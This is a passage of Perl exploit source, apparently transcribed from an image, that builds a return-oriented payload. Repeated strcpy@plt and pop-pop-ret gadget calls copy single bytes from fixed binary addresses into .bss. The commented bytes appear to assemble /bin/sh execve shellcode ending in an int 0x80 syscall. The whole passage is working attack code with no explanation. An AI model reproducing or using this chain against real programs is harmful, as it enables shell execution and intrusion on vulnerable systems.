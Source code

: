 	# \x68
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+12);
	$payload .= pack('L', 0x080482f6);

	# \x2f
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+13);
	$payload .= pack('L', 0x08048134);

	# \x62
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+14);
	$payload .= pack('L', 0x08048137);

	# \x69\x6e
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+15);
	$payload .= pack('L', 0x0804813d);

	# \x89
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+17);
	$payload .= pack('L', 0x08048333);

	# \xe3
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+18);
	$payload .= pack('L', 0x080481aa);

	# \xcd
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+19);
	$payload .= pack('L', 0x0804846a);

	# \x80
	$payload .= pack('L', $strcpy_plt);
	$payload .= pack('L', $pop2_ret);
	$payload .= pack('L', $bss+20);
	$payload .= pack('L', 0x0804803d);
